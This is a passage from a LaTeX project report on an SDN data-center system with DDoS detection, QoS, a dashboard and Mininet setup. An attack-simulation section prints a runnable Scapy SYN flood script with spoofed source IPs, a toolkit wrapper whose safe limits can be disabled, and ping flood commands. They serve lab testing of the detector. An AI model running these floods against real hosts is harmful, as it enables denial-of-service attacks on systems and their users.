        tcp_pkt = pkt.get_protocol(tcp.tcp)
        udp_pkt = pkt.get_protocol(udp.udp)
        icmp_pkt = pkt.get_protocol(icmp.icmp)

        # ICMP is critical
        if icmp_pkt:
            return self.TRAFFIC_CLASSES['critical']['queue']

        # Check port-based classification
        dst_port = None
        if tcp_pkt:
            dst_port = tcp_pkt.dst_port
        elif udp_pkt:
            dst_port = udp_pkt.dst_port

        if dst_port:
            for class_name, config in self.TRAFFIC_CLASSES.items():
                if dst_port in config['ports']:
                    return config['queue']

        # Default to bulk
        return self.TRAFFIC_CLASSES['bulk']['queue']

    def apply_dscp_marking(self, datapath, parser, pkt, queue_id):
        """Apply DSCP marking based on traffic class."""
        dscp_value = None
        for config in self.TRAFFIC_CLASSES.values():
            if config['queue'] == queue_id:
                dscp_value = config['dscp']
                break

        if dscp_value:
            actions = [
                parser.OFPActionSetField(ip_dscp=dscp_value),
                parser.OFPActionSetQueue(queue_id)
            ]
            return actions
        return []

    def configure_switch_queues(self, switch_name):
        """Configure HTB queues on switch interface."""
        commands = [
            f"ovs-vsctl set port {switch_name} qos=@newqos -- "
            f"--id=@newqos create qos type=linux-htb "
            f"other-config:max-rate=100000000 "
            f"queues=0=@q0,1=@q1,2=@q2,3=@q3 -- "
            f"--id=@q0 create queue other-config:min-rate=50000000 -- "
            f"--id=@q1 create queue other-config:min-rate=30000000 -- "
            f"--id=@q2 create queue other-config:min-rate=15000000 -- "
            f"--id=@q3 create queue other-config:min-rate=5000000"
        ]
        return commands
\end{lstlisting}

\newpage

% =============================================================================
% SECTION 8: ATTACK SIMULATION TOOLKIT
% =============================================================================
\section{Attack Simulation Toolkit}

\subsection{Overview}

The attack toolkit provides controlled attack simulations for testing the DDoS detection system. All attacks use Scapy for packet crafting and include safety features.

\begin{figure}[H]
\centering

\begin{tikzpicture}[
    attack/.style={rectangle, draw=#1, fill=#1!20, rounded corners,
                   minimum width=3cm, minimum height=1.5cm, text centered, font=\small\bfseries}
]

\node[attack=dangerred] (syn) at (0, 0) {SYN Flood};
\node[attack=warningyellow] (icmp) at (4, 0) {ICMP Flood};
\node[attack=primaryblue] (udp) at (8, 0) {UDP Flood};
\node[attack=purpleaccent] (slow) at (2, -2.5) {Slowloris};
\node[attack=successgreen] (dns) at (6, -2.5) {DNS Amplification};

% Labels
\node[below=0.1cm of syn, font=\tiny] {TCP Layer};
\node[below=0.1cm of icmp, font=\tiny] {ICMP Layer};
\node[below=0.1cm of udp, font=\tiny] {UDP Layer};
\node[below=0.1cm of slow, font=\tiny] {Application Layer};
\node[below=0.1cm of dns, font=\tiny] {UDP + DNS};

\end{tikzpicture}
\caption{Attack Types in Toolkit}
\end{figure}

\subsection{Attack Descriptions}

\begin{table}[H]
\centering
\caption{Attack Types and Characteristics}
\begin{tabularx}{\textwidth}{lXl}
\toprule
\textbf{Attack} & \textbf{Description} & \textbf{Target} \\
\midrule
SYN Flood & Sends TCP SYN packets without completing handshake, exhausting server connection table & TCP Stack \\
ICMP Flood & Sends large volumes of ICMP Echo requests to overwhelm target & Network Layer \\
UDP Flood & Sends UDP packets to random ports, forcing ICMP unreachable responses & Network/App \\
Slowloris & Opens many HTTP connections and keeps them alive with partial headers & Web Server \\
DNS Amplification & Sends DNS queries with spoofed source IP to amplify traffic & DNS/Network \\
\bottomrule
\end{tabularx}
\end{table}

\subsection{SYN Flood Implementation}

\begin{lstlisting}[language=Python, caption=SYN Flood Attack Implementation]
#!/usr/bin/env python3
"""TCP SYN Flood Attack Simulation."""

from scapy.all import IP, TCP, send, RandShort
import random
import time

class SYNFlood:
    """SYN Flood attack generator."""

    def __init__(self, target_ip, target_port=80, rate=100):
        self.target_ip = target_ip
        self.target_port = target_port
        self.rate = rate  # packets per second
        self.running = False

    def generate_packet(self):
        """Generate a single SYN packet with random source."""
        # Random source IP (spoofed)
        src_ip = f"{random.randint(1,254)}." \
                 f"{random.randint(1,254)}." \
                 f"{random.randint(1,254)}." \
                 f"{random.randint(1,254)}"

        # Craft IP layer
        ip_layer = IP(src=src_ip, dst=self.target_ip)

        # Craft TCP layer with SYN flag
        tcp_layer = TCP(
            sport=RandShort(),      # Random source port
            dport=self.target_port,
            flags='S',              # SYN flag
            seq=random.randint(0, 2**32-1)
        )

        return ip_layer / tcp_layer

    def run(self, duration=30):
        """Run attack for specified duration."""
        self.running = True
        packets_sent = 0
        start_time = time.time()
        interval = 1.0 / self.rate

        print(f"[*] Starting SYN flood to {self.target_ip}:{self.target_port}")
        print(f"[*] Rate: {self.rate} pps, Duration: {duration}s")

        while self.running and (time.time() - start_time) < duration:
            pkt = self.generate_packet()
            send(pkt, verbose=False)
            packets_sent += 1
            time.sleep(interval)

        elapsed = time.time() - start_time
        print(f"[*] Attack complete: {packets_sent} packets in {elapsed:.1f}s")
        return packets_sent

if __name__ == '__main__':
    import sys
    if len(sys.argv) < 3:
        print("Usage: syn_flood.py <target_ip> <port> [duration]")
        sys.exit(1)

    target = sys.argv[1]
    port = int(sys.argv[2])
    duration = int(sys.argv[3]) if len(sys.argv) > 3 else 30

    attack = SYNFlood(target, port, rate=200)
    attack.run(duration)
\end{lstlisting}

\subsection{Unified Attack Interface}

\begin{lstlisting}[language=Python, caption=Attack Toolkit Unified Interface]
class AttackToolkit:
    """Unified interface for all attack types."""

    ATTACKS = {
        'syn': SYNFlood,
        'icmp': ICMPFlood,
        'udp': UDPFlood,
        'slowloris': Slowloris,
        'dns': DNSAmplification
    }

    def __init__(self, safe_mode=True):
        self.safe_mode = safe_mode
        self.max_duration = 60 if safe_mode else 300
        self.max_rate = 500 if safe_mode else 10000

    def run_attack(self, attack_type, target_ip, **kwargs):
        """Run specified attack type."""
        if attack_type not in self.ATTACKS:
            raise ValueError(f"Unknown attack: {attack_type}")

        # Apply safety limits
        duration = min(kwargs.get('duration', 30), self.max_duration)
        rate = min(kwargs.get('rate', 100), self.max_rate)

        attack_class = self.ATTACKS[attack_type]
        attack = attack_class(target_ip, rate=rate, **kwargs)

        return attack.run(duration)
\end{lstlisting}

\newpage

% =============================================================================
% SECTION 9: WEB DASHBOARD
% =============================================================================
\section{Web Dashboard}

\subsection{Dashboard Architecture}

The web dashboard provides real-time visualization using Flask, WebSocket, and D3.js:

\begin{figure}[H]
\centering

\begin{tikzpicture}[
    component/.style={rectangle, draw=primaryblue, fill=primaryblue!10, rounded corners,
                      minimum width=2.5cm, minimum height=1cm, text centered, font=\small},
    arrow/.style={<->, thick, >=stealth}
]

% Frontend
\node[component] (browser) at (0, 3) {Browser};
\node[component] (d3) at (3, 3) {D3.js};
\node[component] (ws) at (6, 3) {WebSocket};

% Backend
\node[component] (flask) at (3, 0) {Flask};
\node[component] (socketio) at (6, 0) {SocketIO};
\node[component] (rest) at (0, 0) {REST API};

% Controller
\node[component] (ctrl) at (3, -3) {SDN Controller};

% Connections
\draw[arrow] (browser) -- (d3);
\draw[arrow] (d3) -- (ws);
\draw[arrow] (ws) -- (socketio);
\draw[arrow] (browser) -- (rest);
\draw[arrow] (rest) -- (flask);
\draw[arrow] (flask) -- (ctrl);
\draw[arrow] (socketio) -- (flask);

\end{tikzpicture}
\caption{Dashboard Architecture}
\end{figure}

\subsection{Dashboard Features}

\begin{enumerate}
    \item \textbf{Topology Visualization:} Interactive D3.js force-directed graph showing all switches and hosts
    \item \textbf{Real-time Statistics:} Live bandwidth, packet counts, and flow statistics
    \item \textbf{Security Alerts:} DDoS detection alerts with attack details
    \item \textbf{Blocked Hosts:} List of blocked IPs with countdown timers
    \item \textbf{Load Balancer Status:} Server pool health and request distribution
    \item \textbf{QoS Monitoring:} Queue utilization graphs
\end{enumerate}

\subsection{D3.js Topology Visualization}

\begin{lstlisting}[language=JavaScript, caption=D3.js Topology Rendering]
// Initialize force simulation
const simulation = d3.forceSimulation(nodes)
    .force('link', d3.forceLink(links).id(d => d.id).distance(80))
    .force('charge', d3.forceManyBody().strength(-300))
    .force('center', d3.forceCenter(width / 2, height / 2))
    .force('collision', d3.forceCollide().radius(30));

// Create links
const link = svg.append('g')
    .selectAll('line')
    .data(links)
    .enter().append('line')
    .attr('stroke', '#8b949e')
    .attr('stroke-width', 2);

// Create nodes
const node = svg.append('g')
    .selectAll('g')
    .data(nodes)
    .enter().append('g')
    .call(d3.drag()
        .on('start', dragstarted)
        .on('drag', dragged)
        .on('end', dragended));

// Node circles with type-based coloring
node.append('circle')
    .attr('r', d => d.type === 'core' ? 20 :
                    d.type === 'host' ? 12 : 15)
    .attr('fill', d => {
        switch(d.type) {
            case 'core': return '#f85149';
            case 'aggregation': return '#58a6ff';
            case 'edge': return '#3fb950';
            case 'host': return '#8b949e';
        }
    });

// Node labels
node.append('text')
    .text(d => d.id)
    .attr('text-anchor', 'middle')
    .attr('dy', 4)
    .attr('fill', 'white')
    .attr('font-size', '10px');
\end{lstlisting}

\subsection{Flask REST API}

\begin{lstlisting}[language=Python, caption=Flask API Endpoints]
from flask import Flask, jsonify
from flask_socketio import SocketIO

app = Flask(__name__)
socketio = SocketIO(app, cors_allowed_origins="*")

@app.route('/securenet/status')
def get_status():
    """Get overall system status."""
    return jsonify({
        'controller': 'running',
        'switches': len(controller.switches),
        'hosts': len(controller.hosts),
        'uptime': controller.get_uptime()
    })

@app.route('/securenet/topology')
def get_topology():
    """Get network topology for D3.js."""
    nodes = []
    links = []

    # Add switches
    for sw in controller.switches:
        nodes.append({
            'id': sw.name,
            'type': get_switch_type(sw.name)
        })

    # Add hosts
    for host in controller.hosts:
        nodes.append({
            'id': host.name,
            'type': 'host',
            'ip': host.ip
        })

    # Add links
    for link in controller.links:
        links.append({
            'source': link.src,
            'target': link.dst
        })

    return jsonify({'nodes': nodes, 'links': links})

@app.route('/securenet/ddos/alerts')
def get_alerts():
    """Get recent DDoS alerts."""
    return jsonify(controller.ddos_detector.get_alerts())

@socketio.on('connect')
def handle_connect():
    """Handle WebSocket connection."""
    emit('connected', {'status': 'ok'})

def broadcast_stats():
    """Broadcast stats to all connected clients."""
    while True:
        stats = controller.stats_collector.get_stats()
        socketio.emit('stats_update', stats)
        time.sleep(1)
\end{lstlisting}

\newpage

% =============================================================================
% SECTION 10: PERFORMANCE ANALYSIS
% =============================================================================
\section{Performance Analysis}

\subsection{Benchmarking Methodology}

The performance analyzer conducts automated tests measuring:

\begin{itemize}
    \item \textbf{Throughput:} TCP bandwidth using iperf3
    \item \textbf{Latency:} Round-trip time using ping
    \item \textbf{Jitter:} Variation in latency using UDP tests
    \item \textbf{Packet Loss:} Percentage of lost packets
\end{itemize}

\subsection{Performance Results}

\begin{figure}[H]
\centering

\begin{tikzpicture}
\begin{axis}[
    ybar,
    bar width=20pt,
    width=12cm,
    height=7cm,
    ylabel={Throughput (Mbps)},
    xlabel={Host Pair},
    symbolic x coords={h7-h1, h7-h4, h8-h5, h9-h15, h7-h16},
    xtick=data,
    ymin=0,
    ymax=100,
    nodes near coords,
    nodes near coords align={vertical},
    legend pos=north east,
    title={TCP Throughput Measurements}
]
\addplot[fill=primaryblue!70] coordinates {
    (h7-h1, 94.2)
    (h7-h4, 91.5)
    (h8-h5, 89.8)
    (h9-h15, 87.3)
    (h7-h16, 85.1)
};
\end{axis}
\end{tikzpicture}
\caption{Throughput Comparison Across Host Pairs}
\end{figure}

\begin{figure}[H]
\centering

\begin{tikzpicture}
\begin{axis}[
    ybar,
    bar width=15pt,
    width=12cm,
    height=6cm,
    ylabel={Latency (ms)},
    xlabel={Path Type},
    symbolic x coords={Same Pod, Adjacent Pod, Cross Pod},
    xtick=data,
    ymin=0,
    ymax=6,
    legend pos=north west,
    title={Latency by Path Type}
]
\addplot[fill=successgreen!70] coordinates {
    (Same Pod, 2.3)
    (Adjacent Pod, 3.5)
    (Cross Pod, 4.1)
};
\addplot[fill=dangerred!70] coordinates {
    (Same Pod, 1.8)
    (Adjacent Pod, 2.9)
    (Cross Pod, 3.2)
};
\addplot[fill=warningyellow!70] coordinates {
    (Same Pod, 3.1)
    (Adjacent Pod, 4.2)
    (Cross Pod, 5.5)
};
\legend{Average, Minimum, Maximum}
\end{axis}
\end{tikzpicture}
\caption{Latency Distribution by Path Type}
\end{figure}

\subsection{QoS Impact Analysis}

\begin{table}[H]
\centering
\caption{QoS Impact on Traffic Classes During Congestion}
\begin{tabular}{llll}
\toprule
\textbf{Traffic Class} & \textbf{Without QoS} & \textbf{With QoS} & \textbf{Change} \\
\midrule
Critical & 75 Mbps & 95 Mbps & \textcolor{successgreen}{+27\%} \\
Real-time & 72 Mbps & 88 Mbps & \textcolor{successgreen}{+22\%} \\
Interactive & 68 Mbps & 78 Mbps & \textcolor{successgreen}{+15\%} \\
Bulk & 62 Mbps & 45 Mbps & \textcolor{dangerred}{-27\%} \\
\bottomrule
\end{tabular}
\end{table}

\newpage

% =============================================================================
% SECTION 11: DEVELOPMENT JOURNEY
% =============================================================================
\section{Development Journey}

This section documents the complete development process, including multiple iterations and problem-solving approaches that led to the final working system.

\subsection{Development Stages Overview}

The project was developed through 9 iterative stages:

\begin{table}[H]
\centering
\caption{Development Stages Summary}
\begin{tabularx}{\textwidth}{clX}
\toprule
\textbf{Stage} & \textbf{Focus Area} & \textbf{Key Deliverables} \\
\midrule
1 & Research \& Planning & Architecture design, technology selection \\
2 & Topology Implementation & Fat-Tree k=4, dynamic topology generator \\
3 & SDN Controller & Ryu-based controller, OpenFlow handling \\
4 & Security Features & DDoS detection, firewall, automatic blocking \\
5 & Traffic Engineering & QoS 4-tier system, load balancer with VIP \\
6 & Dashboard & Flask + D3.js real-time visualization \\
7 & Attack Toolkit & 5 attack types with Scapy, integrated runner \\
8 & Cross-Platform & WSL2 support, Linux Bridge mode, VM guide \\
9 & Testing \& Docs & Performance analysis, lab manual, reports \\
\bottomrule
\end{tabularx}
\end{table}

\subsection{Initial Approach: Windows Native Solution}

During development, we explored the possibility of running the entire project natively on Windows, without requiring WSL or Linux. This would have simplified deployment for Windows users significantly.

\subsubsection{Windows Native Attempt}

We developed two components to replicate Mininet's functionality on Windows:

\begin{enumerate}
    \item \textbf{Pure Python OpenFlow Switch Simulator} (\texttt{simulator/windows\_sim.py}):
    \begin{itemize}
        \item Implements OpenFlow 1.3 protocol messages (HELLO, FEATURES\_REQUEST, PACKET\_IN, FLOW\_MOD)
        \item Creates a virtual Fat-Tree topology with simulated switches and hosts
        \item Generates realistic traffic patterns including normal traffic and attack simulations
        \item Uses Python's \texttt{asyncio} for asynchronous network operations
    \end{itemize}

    \item \textbf{Pure Python OpenFlow Controller} (\texttt{simulator/windows\_controller.py}):
    \begin{itemize}
        \item Accepts OpenFlow connections from simulated switches
        \item Implements L2 learning switch behavior
        \item Includes DDoS detection algorithms
        \item Provides REST API compatible with the dashboard
    \end{itemize}
\end{enumerate}

\begin{lstlisting}[language=Python, caption=Windows Simulator Architecture]
class VirtualSwitch:
    """Pure Python OpenFlow switch simulation."""

    def __init__(self, dpid, controller_host, controller_port):
        self.dpid = dpid
        self.flow_table = []
        self.mac_table = {}

    async def connect_to_controller(self):
        """Establish OpenFlow connection."""
        reader, writer = await asyncio.open_connection(
            self.controller_host, self.controller_port)
        await self.send_hello()
        await self.handle_features_request()
\end{lstlisting}

\subsubsection{Limitations Discovered}

The Windows native approach faced several fundamental limitations:

\begin{itemize}
    \item \textbf{No Real Network Stack:} Windows lacks kernel-level network namespace support, making it impossible to create isolated virtual hosts with real TCP/IP stacks
    \item \textbf{No Open vSwitch:} OVS requires Linux kernel modules for proper OpenFlow switch behavior
    \item \textbf{Simulated vs Real:} While the simulator could demonstrate concepts, it couldn't provide real packet forwarding or accurate performance metrics
    \item \textbf{Tool Compatibility:} Network tools like \texttt{hping3}, \texttt{iperf}, and \texttt{tcpdump} require real network interfaces
\end{itemize}

\subsection{WSL2 Environment: Two Operating Modes}

After evaluating the Windows native approach, we adopted WSL2 (Windows Subsystem for Linux 2). However, we discovered that WSL2 itself has limitations with Open vSwitch, leading to two distinct operating modes:

\subsubsection{Mode 1: Linux Bridges (WSL2 Compatible)}

WSL2's virtualized network stack cannot properly establish OpenFlow connections to external controllers. The solution is to use Linux bridges instead of OVS:

\begin{lstlisting}[language=bash, caption=Linux Bridge Mode]
# Start Mininet with Linux bridges (no OpenFlow controller needed)
sudo mn --switch lxbr --topo tree,2

# This creates a working network but without SDN controller features
# Use for basic network testing and attack simulation
\end{lstlisting}

\textbf{Advantages:}
\begin{itemize}
    \item Works out-of-the-box in WSL2
    \item No controller connection issues
    \item Sufficient for traffic generation and detection testing
\end{itemize}

\textbf{Limitations:}
\begin{itemize}
    \item No OpenFlow-based traffic control
    \item Cannot install drop rules on switches
    \item DDoS mitigation is simulated rather than enforced
\end{itemize}

\subsubsection{Mode 2: Full SDN (VM Required)}

For complete SDN functionality with OpenFlow flow rules, a full Linux VM is required:

\begin{lstlisting}[language=bash, caption=Full SDN Mode]
# In a proper Linux VM (VirtualBox/VMware)
# Terminal 1: Start Ryu controller
ryu-manager controller/securenet_controller.py

# Terminal 2: Start Mininet with OVS
sudo mn --controller=remote,ip=127.0.0.1 --switch ovsk --topo tree,2

# Now OpenFlow rules are properly enforced
\end{lstlisting}

\subsubsection{WSL2 Setup Challenges}

\begin{table}[H]
\centering
\caption{WSL2 Setup Challenges and Solutions}
\begin{tabularx}{\textwidth}{lX}
\toprule
\textbf{Challenge} & \textbf{Solution} \\
\midrule
eventlet ALREADY\_HANDLED error & Applied sed patch to Ryu's wsgi.py \\
cffi\_backend module error & Created clean venv without --system-site-packages \\
OVS OpenFlow connection fails & Use Linux bridges (\texttt{--switch lxbr}) instead \\
Dashboard shows no data & Run stats collector to poll interface statistics \\
\bottomrule
\end{tabularx}
\end{table}

\subsection{Attack Simulator Integration Challenge}

\subsubsection{The Problem: Namespace Isolation}

Initially, the attack simulator (\texttt{attack\_simulator.py}) was designed as a separate process that would execute attack commands. However, this approach failed because:

\begin{itemize}
    \item Mininet hosts exist in isolated network namespaces
    \item External processes cannot access these namespaces
    \item Commands like \texttt{ping} from the host system target the host's network, not Mininet's
\end{itemize}

\begin{lstlisting}[language=Python, caption=Failed Approach - External Process]
# This FAILS - cannot reach Mininet's network
subprocess.run(['ping', '-f', '-c', '1000', '10.0.0.1'])
\end{lstlisting}

\subsubsection{The Solution: Integrated Demo Runner}

We created an integrated demo runner (\texttt{scripts/run\_demo.py}) that runs both Mininet and attacks in the \textbf{same Python process}, allowing direct access to host objects:

\begin{lstlisting}[language=Python, caption=Integrated Demo Runner Solution]
# Create network
net = Mininet(topo=TreeTopo(depth=2, fanout=2),
              controller=None, switch=LinuxBridge)
net.start()

# Get host objects directly
h1, h4 = net.get('h1', 'h4')

# Run attack FROM the host's namespace - THIS WORKS!
h4.cmd(f'ping -f -c 5000 {h1.IP()} &')
\end{lstlisting}

The integrated runner provides an interactive menu:
\begin{enumerate}
    \item ICMP Flood Attack
    \item SYN Flood Attack
    \item UDP Flood Attack
    \item Ping of Death
    \item Multi-Vector Attack
    \item Run Demo Scenario
    \item Test Connectivity
    \item Show Status
    \item Open Mininet CLI
\end{enumerate}

\subsection{DDoS Detection Evolution}

The DDoS detection system went through three major iterations:

\subsubsection{Version 1.0: Basic Rate Monitoring}

Initial implementation monitored total traffic rates on interfaces:

\begin{lstlisting}[language=Python, caption=v1.0 - Basic Detection]
# Problem: Both sender AND receiver show high traffic
if total_rate > threshold:
    block_host(interface)  # Wrong! Might block victim
\end{lstlisting}

\textbf{Issue:} When h4 floods h1, \textit{both} interfaces show high rates, causing the victim to also be blocked.

\subsubsection{Version 2.0: TX/RX Differentiation}

We realized that on a switch port:
\begin{itemize}
    \item \textbf{High RX} = Switch is receiving from host = Host is \textbf{SENDING}
    \item \textbf{High TX} = Switch is transmitting to host = Host is \textbf{RECEIVING}
\end{itemize}

Therefore, to identify the attacker, we look for high \textbf{RX} rates:

\begin{lstlisting}[language=Python, caption=v2.0 - TX-Based Detection]
def get_attacker_from_interface(iface, tx_rate, rx_rate):
    """HIGH RX on switch = host is SENDING = ATTACKER"""
    if rx_rate > tx_rate * 1.5:  # Host sending >> receiving
        return identify_host_from_interface(iface)
    return None  # Not an attacker
\end{lstlisting}

\subsubsection{Version 3.0: IP-Based Deduplication}

Even with TX-based detection, we had duplicate blocking issues:

\begin{lstlisting}[language=Python, caption=v3.0 - Deduplication]
# Changed from host-based to IP-based tracking
blocked_ips = {}  # {ip: block_time}

def block_attacker(host_ip):
    if host_ip in blocked_ips:
        return  # Already blocked, skip
    blocked_ips[host_ip] = time.time()
    # Install block rule...
\end{lstlisting}

Key improvements in v3.0:
\begin{itemize}
    \item IP-based deduplication prevents duplicate blocks
    \item Detection cooldown period (5 seconds) prevents rapid re-detection
    \item Proper host-to-IP mapping for accurate identification
    \item Clear security alerts with all required fields
\end{itemize}

\subsection{Dynamic Topology Generator}

To support larger and more varied network configurations, we created a dynamic topology generator (\texttt{topology/dynamic\_topology.py}):

\begin{table}[H]
\centering
\caption{Supported Topology Types}
\begin{tabular}{llll}
\toprule
\textbf{Type} & \textbf{Parameters} & \textbf{Example Size} & \textbf{Use Case} \\
\midrule
Tree & depth, fanout & 13 switches, 27 hosts & Basic testing \\
Fat-Tree & k (even) & 20 switches, 16 hosts (k=4) & Data center \\
Spine-Leaf & spines, leaves, hosts & Configurable & Modern DC \\
Data Center & zones, hosts/zone & Enterprise scale & Zone isolation \\
Linear & n hosts & n-1 switches & Simple chain \\
\bottomrule
\end{tabular}
\end{table}

\begin{lstlisting}[language=Python, caption=Dynamic Topology Usage]
from topology.dynamic_topology import create_topology

# Create different topologies
topo = create_topology('fat_tree', k=6)   # 45 switches, 54 hosts
topo = create_topology('spine_leaf', spines=4, leaves=8, hosts_per_leaf=4)
topo = create_topology('tree', depth=3, fanout=3)  # 13 switches, 27 hosts
\end{lstlisting}

\newpage

% =============================================================================
% SECTION 12: INSTALLATION AND USAGE
% =============================================================================
\section{Installation and Usage Guide}

\subsection{Prerequisites}

\begin{itemize}
    \item Windows 10/11 with WSL2 enabled
    \item Ubuntu 20.04+ distribution in WSL2
    \item Python 3.11 (recommended)
    \item Mininet 2.3.0+
    \item Open vSwitch 2.13+
\end{itemize}

\subsection{WSL2 Installation}

\begin{lstlisting}[language=bash, caption=WSL2 Quick Setup]
# In WSL Ubuntu terminal:
cd ~
git clone <repository_url> securenet_dc
cd securenet_dc

# Run the automated setup script
chmod +x scripts/setup_wsl.sh
./scripts/setup_wsl.sh
\end{lstlisting}

The setup script automatically:
\begin{itemize}
    \item Creates Python virtual environment with Python 3.11
    \item Installs Ryu SDN Framework and Flask dependencies
    \item Applies eventlet compatibility patch
    \item Verifies all installations
\end{itemize}

\subsection{Manual Installation (Alternative)}

\begin{lstlisting}[language=bash, caption=Manual Installation Commands]
# Update system
sudo apt-get update
sudo apt-get install -y mininet openvswitch-switch python3.11 python3.11-venv

# Create virtual environment
python3.11 -m venv venv
source venv/bin/activate

# Install dependencies
pip install wheel setuptools==57.5.0
pip install --no-build-isolation ryu
pip install flask flask-socketio flask-cors requests

# Apply eventlet patch (required for Ryu)
WSGI_FILE=$(find venv -name "wsgi.py" -path "*/ryu/app/*" | head -1)
sed -i "s/from eventlet.wsgi import ALREADY_HANDLED/ALREADY_HANDLED = b''/" "$WSGI_FILE"
\end{lstlisting}

\subsection{Running the Project}

\begin{lstlisting}[language=bash, caption=Starting SecureNet DC]
# Option 1: Use the start script (recommended)
cd ~/securenet_dc
./scripts/start_all.sh

# Option 2: Manual start (3 terminals required)

# Terminal 1: Start Controller
source venv/bin/activate
ryu-manager controller/securenet_controller.py --wsapi-host 0.0.0.0

# Terminal 2: Start Dashboard
source venv/bin/activate
python dashboard/app.py

# Terminal 3: Start Mininet
sudo mn --controller=remote,ip=127.0.0.1,port=6653 --topo=tree,2

# For Fat-Tree topology:
sudo mn --custom topology/datacenter_topo.py --topo=fattree \
        --controller=remote,ip=127.0.0.1,port=6653
\end{lstlisting}

\subsection{Accessing Components}

\begin{table}[H]
\centering
\caption{Component Access Points}
\begin{tabular}{lll}
\toprule
\textbf{Component} & \textbf{URL/Port} & \textbf{Description} \\
\midrule
Web Dashboard & http://localhost:5000 & Real-time visualization \\
Controller API & http://localhost:8080/securenet/ & REST API endpoints \\
OpenFlow & Port 6653 & Switch-controller communication \\
Mininet CLI & Terminal & Network management \\
\bottomrule
\end{tabular}
\end{table}

\textbf{Note:} To access the dashboard from Windows browser, use the WSL IP address:
\begin{lstlisting}[language=bash]
# Get WSL IP
hostname -I | awk '{print $1}'
# Then open http://<WSL_IP>:5000 in Windows browser
